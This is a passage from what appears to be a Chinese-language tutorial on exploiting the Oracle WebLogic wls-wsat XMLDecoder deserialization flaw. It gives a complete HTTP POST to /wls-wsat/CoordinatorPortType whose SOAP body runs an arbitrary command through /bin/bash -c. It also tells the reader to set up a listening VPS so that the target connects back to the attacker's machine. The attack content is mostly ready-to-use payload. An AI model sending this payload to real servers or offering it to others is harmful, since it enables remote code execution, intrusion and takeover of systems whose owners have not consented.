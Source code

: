 ![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0TTaCrwaxbUrUce0USNtNtT0NgRI5K19tX4HT5KCY3E4JbVgI1DqghQ/640?wx_fmt=other)

vps

如图就返回了我们的命令执行结果

### **4. 利用 cancel**

其实除了 whois 以外，还有 cancel 可以利用

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host:x.x.x.x:x
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>命令</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

我们同样需要一台 vps，在上面监听任意端口

目标机

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0gIyEpaozJ2Ria7MgAIYAkmiczzC0buVX4xmK8c2BBQic3ypsURXqd35Zw/640?wx_fmt=other)

攻击机
